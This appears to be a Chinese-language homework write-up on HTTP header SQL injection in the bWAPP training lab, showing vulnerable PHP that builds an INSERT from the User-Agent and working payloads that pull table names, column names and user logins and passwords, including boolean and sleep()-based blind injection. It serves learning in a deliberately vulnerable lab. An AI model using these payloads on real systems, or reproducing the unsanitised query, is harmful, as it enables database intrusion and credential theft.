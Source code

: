 针对HTTP请求头,如果不加以过滤或转义,直接与数据库交互的过程容易被利用进行SQL 注入攻击,即HTTP攻击

## 常见场景

访问时,Web Server会从HTTP Header中取出浏览器信息,IP地址,HOST信息等存储到数据库中

## 视频解题

使用burpsuite尝试修改User-Agent 为 123 发现在前端页面也变成 123 
随后继续修改为 123' 有报错
修改 111', '222') # 发现不仅User-Agent被修改, IP_Address 也被改变
此时尝试注入 111', (select database())); # 发现可以返回数据库名
尝试时间盲注 111', sleep(2)); # 可以看出返回时间延迟了大约两秒

## 进入容器查看
 预测形式为 insert into ... values(xxx, yyy)

docker exec -it xxx(容器ID) bash
```php
$ip_address = $_SERVER["REMOTE_ADDR"];
$user_agent = $_SERVER["HTTP_USER_AGENT"];

$sql = "INSERT INTO visitors (date, user_agent, ip_address) VALUES (now(), '" . sqli($user_agent) . "', '" . $ip_address . "')";
```
## 课后题

1 利用SQL盲注完成HTTP头注入
2 (提高)尝试用两种以上不同MySQL函数完成盲注练习
3 (进阶)修改user-agent 与 ip_address位置尝试注入

## 写作业 

#### 1 SQL注入

我们在课程中已经知道数据库名称为 bWAPP
注意每次只能返回一行,所以要 limit 1

1 information_schema.tables 为 数据库中表数据表信息
```
111', (select table_name from information_schema.tables where table_schema=database() limit 1 offset 0)); #
```
可以成功查询数据表,但是返回为blog,并不是我们所希望的内容
接下来通过修改 offset 偏移控制返回第几条;可以发现offset为3时返回数据表名为 users

2 查询user中包含几个字段
  information_schema.columns 很重要!
  具体利用过程同上
```
111', (select column_name from information_schema.columns where table_name='users' limit 1 offset 0)); #
```
  利用上述指令即可查得id,继续利用偏移查询
  id login password 分别位于偏移 0, 1, 2 处

3 查询具体敏感数据
```
111', (select id from users limit 1 offset 0)); #
```
  直接对users数据表的第一个id字段进行查询
  同理将id 更换为 login 与 password 即可查询得到id为1的用户全部信息
  再更换offset重复上述操作即可完成SQL注入攻击

#### 2 两种以上不同函数完成
因为可以直执行整句逻辑,很自由,下面两种方法都可以帮助我们进行SQL注入

1 布尔注入
substring(version(), 1, 1) = 5
=5时返回1 !=5时返回 0 意味着我们还可以使用布尔进行SQL注入,需要编写简本
```
111', substring(database(),1,1)='b'); # 
```
返回1 一次类推遍历 (33,128) 可以依次找寻到数据库名字全称
在上一节时间盲注的练习中没少写... 同理


2 时间延迟注入
sleep(3) 与布尔型同理,但是可以应对没有回显情况.通过判断延时是否被执行从而推断出SQL条件是否正确
因为时间延迟注入中要前置条件为真,所以可以看作布尔注入升级版
```
111', substring(database(),1,1)='b' and sleep(2)); #
```
在布尔注入后直接加上and sleep(2)即可


#### 3 交换位置怎么办

首先修改代码
```php
$sql = "INSERT INTO visitors (date, ip_address, user_agent) VALUES (now(), '" . sqli($ip_address) . "', '" . $user_agent . "')";
```

测试111正常 
后续指令失效,原因是交换位置后已经无法再继续向后直接拼接
课程的评论区大佬已经给出了解决办法,那就是时间盲注
```
111'+ (substring(database(),1,1)='b' and sleep(2)));#
```
写burpsuite脚本还不会QAQ练习一下再回来补
